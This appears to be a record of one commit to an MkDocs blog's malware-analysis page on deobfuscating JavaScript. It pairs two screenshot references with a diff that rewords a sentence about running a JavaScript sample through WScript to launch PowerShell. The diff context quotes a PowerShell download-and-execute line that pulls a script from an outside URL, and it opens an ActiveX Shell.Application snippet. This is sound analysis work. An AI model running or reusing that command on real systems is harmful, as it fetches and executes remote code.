

Before and after one commit to secbrianyau/myblog, an MkDocs documentation site: the page built from docs/malwareanalysis/20231102-Deobfuscate-JavaScript.md, in a window 1280 px wide and 900 px high, scrolled down 5301 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 20231102-Deobfuscate-JavaScript.md

````diff
--- a/docs/malwareanalysis/20231102-Deobfuscate-JavaScript.md
+++ b/docs/malwareanalysis/20231102-Deobfuscate-JavaScript.md
@@ -133,7 +133,7 @@ Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://1ota1
 
 #### Run PowerShell with JavaScript file via WScript
 
-By default, `.js` file can be run with **Windows Based Script Host (WScript.exe)**. You may run the following JavaScript file:
+By default, `.js` file can be run with **Windows Based Script Host (WScript.exe)**. You may run the following JavaScript file - which runs `echo "Hello World from Malware!` with PowerShell:
 
 ```js
 obj_ActX_Shell_application = new ActiveXObject("Shell.Application");
````
